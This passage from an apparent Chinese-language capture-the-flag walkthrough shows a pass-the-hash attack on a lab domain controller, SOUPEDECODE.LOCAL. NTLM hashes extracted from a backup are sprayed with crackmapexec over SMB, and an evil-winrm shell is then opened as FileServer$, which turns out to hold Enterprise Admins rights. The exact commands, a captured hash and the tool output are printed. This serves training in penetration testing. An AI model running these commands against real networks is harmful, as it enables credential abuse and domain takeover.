 发现了多个计算机账户的NTLM哈希值！

## 7.4 哈希传递攻击

提取用户名和哈希值：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ awk -F '[:]' '{print $1}' backup_extract.txt > user

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ awk -F '[:]' '{print $4}' backup_extract.txt > pass
```

使用哈希进行认证测试：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ crackmapexec smb 192.168.205.131 -u user -H pass --continue-on-success| grep '+'      
SMB         192.168.205.131 445    DC01    [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
```

`FileServer$` 账户具有管理员权限！

# 八、获取系统访问权限

## 8.1 通过WinRM获取Shell

使用 `FileServer$` 的NTLM哈希通过WinRM获取系统访问权限：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ evil-winrm -i 192.168.205.131 -u "FileServer$" -H "e41da7e79a4c76dbd9cf79d1cb325559"
                                      
Evil-WinRM shell v3.7
...
*Evil-WinRM* PS C:\Users\FileServer$\Documents> whoami /all

USER INFORMATION
----------------
User Name               SID
======================= ============================================
soupedecode\fileserver$ S-1-5-21-2986980474-46765180-2505414164-2065

GROUP INFORMATION
-----------------
Group Name                                         Type             SID                                         Attributes
================================================== ================ =========================================== ===============================================================
...
BUILTIN\Administrators                             Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
...
SOUPEDECODE\Enterprise Admins                      Group            S-1-5-21-2986980474-46765180-2505414164-519 Mandatory group, Enabled by default, Enabled group
...
```
